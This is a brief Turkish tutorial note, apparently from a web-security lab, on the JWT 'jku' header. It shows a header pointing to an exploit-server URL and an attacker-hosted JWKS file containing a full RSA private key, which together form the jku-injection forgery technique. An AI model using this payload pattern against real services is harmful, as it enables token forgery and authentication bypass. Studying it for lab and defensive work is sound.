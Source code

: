 
JWT’nin `header` kısmına eklenebilen `jku` (JWK Set URL) alanı, doğrulamada kullanılacak **JSON Web Key Set (JWKS)** belgesinin **URL adresini** belirtir.

`jku` header kullanılarak hangi sunucudan gerekli rsa public key inin alınacağı belirtilebilir. Header başlığında bulundurulur ve
```JSON
{  
    "kid": "mr-rsa",  
    "alg": "RS256",  
    "jku": "https://exploit-0a6a004e04b526b183a30eeb01bb000d.exploit-server.net/jwks.json"  
}
```
şeklinde belirtilir.

`kid` kullanılarak sunucudan çekilen hangi keyin kullanılacağına karar verilebilir.

sunucu bu şekilde bir json kosyası ile `mr-rsa` kid ile belirtilmiş şifreyi alabilir.
```JSON
{
    "keys": [
			{
			    "p": "yXvPOYtnQfthyRM-s97bvOUJBA5uL76g3w1AUXYR54YDv3aLsszaxxcxAw1Y_gG9hHhEbDVdEdxY2LIXRS4Cbn4G2-uFGEnSVi2oBxSiklmFbktwfrMU7ZTtgZGHJIDsf7YXIr1jcBHt99qNzIL6yXN_p6s-ajp2SuRDSU7zLAs",
			    "kty": "RSA",
			    "q": "umrf1ARZLa5pVTpb0AKwgkJrzElQ94SMUgyfuwN18yoEIUOZEJYbCW0P4GGF-eFBb_ZWf4pYi8_hH7Ys9iX6-zyHNcrruvLSdNodA5xgz7AvzpXZa79CrYLkkvrw3huHy2AcphH5Gzl162RVP8lmvpH9tr7P22U8PH6-5t0jbI8",
			    "d": "F8h1xhJxMLy1_7laCydj6s1EWv-hZSGhrMAP9A_NrL4zBI9V8FI7QkRnLd7upasdubmSQol8kg8gz_zn72EzbxMXJR6D2zLKSwtLdNwGeR_ZDnHxyDSEQ-O5c5f7H9_ZxfQ32XPzreAssKKHjTIiK5Q6aEJlDdAop8ULCizOciLGunK5DGYkoNWGchZHngV2eJ_32AM4ZBd644_yyLjHlv-jmJ1bXf5ejdASXROWs-3wdjhwZ1joIJZrgVaEwO-VonH_J_CDTsYAyDf4NwoDJAMHbKWc3gpiPgD_FD2SJI9_4HfR5gXBmR7bWpVKCM_-aeL1v8wG1S50fYWhlTDfOw",
			    "e": "AQAB",
			    "kid": "mr-rsa",
			    "qi": "I-mKemJ4t_MJZlYpjFaiE42fbP3MeVxHx1sUxLa6AK9yXsYx6Wfgp6Bka6SlcRiuRKcHIqqgH-FWWdH60eSbtn4GqbJfElwwjSHssD5QSfxa80g7P7sCVKXQ7ZyRLQikJHoZMRHbNPqfPbQcd0sNUw8G7CAjaVksGtFBymbgDZ4",
			    "dp": "Ah16n3AHNXoeHK5HCjxcsi71WUWNgpLNvYm2EyTaK0QM5gWokcf0xAJKUW3icUgzZSCeF0S4JWfaxuuXsvI4tFA-YjCmxQqBWsY_7VMaIc8ux2mjVLEslxHpLGMKuCdiVDTlKUgzswl9Jgz1UCBP4a2EuY3iqdrTQxYCXtKlWuE",
			    "dq": "l45GFNfILNRsPGcqt61IFU6s1zQQCHuRnS84OVGx9hSFsQmFCrAOoRYy3yhKRQH2MnFil2RBYsGJ9D8mxKPSLali_7_O8Hlz0p51EjdzmcZSx7CaR_gB3JDbBgfQBbL6LsUf5YAdNx37GXnDuQ0jY_HLBGSTFnpyg3hD-et1Xk8",
			    "n": "krgR_VSTmgRUyRotJZctcMTO6F8-LYuCBwGMEd_fJOb-ORh1fcHLT4zAmA7bRx49ZYrD5C9zWx4VKRFDlp_0cJijlDpKky3bfP72vPv-61Hsgx1YHb5YeMbJ5Y0k-WJ3TVc9hmxYe2Ay6dj9mH5aJFMWgbx8fifYMG3Cdc8fAAX4UlaaWq543jJ6uEbUU2kZrCwDtMbWkTzCIg1omoilGfgPYtM6lNLcufUzzUitxnSxUwXtzdaLaB2unWbySZNr-HPdlpNpOgx2QrfiBvA60d21Q3BW8w2Y3H-PcJFGDR0VN0fnEpv-7GiiX6m5DlGJOTMwF842OwNIpfdoNOs-JQ"
			}
    ]
}
```